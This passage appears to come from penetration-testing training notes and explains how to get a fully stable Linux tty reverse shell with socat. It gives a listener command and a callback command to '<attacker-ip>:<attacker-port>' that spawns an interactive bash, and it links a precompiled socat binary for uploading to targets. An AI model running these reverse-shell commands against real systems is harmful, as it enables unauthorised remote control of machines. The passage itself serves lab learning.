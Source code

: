 `socat TCP:<TARGET-IP>:<TARGET-PORT> -`

---

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is _significantly_ more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:  

``socat TCP-L:<port> FILE:`tty`,raw,echo=0``  

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.

The special command is as follows:

`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`  

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

- **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
- **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)  
- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- **setsid**, creates the process in a new session
- **sane**, stabilises the terminal, attempting to "normalise" it.

That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:

![](./img/Pasted%20image%2020230904122146.png)

Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

---

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.
